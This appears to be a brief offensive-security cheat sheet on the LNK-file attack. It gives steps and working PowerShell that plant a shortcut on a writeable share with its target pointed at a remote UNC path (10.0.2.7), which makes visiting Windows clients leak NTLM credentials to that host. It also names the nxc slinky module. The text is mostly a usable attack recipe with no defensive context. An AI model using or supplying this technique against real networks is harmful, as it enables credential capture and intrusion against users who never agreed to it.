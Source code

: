 # LNK File

## Attack Overview
1. Find writeable directory/share
2. Generate malicious LNK file, replacing the 'TargetPath' 
```
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\10.0.2.7\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```
3. Start

## Tools
### nxc slinky module
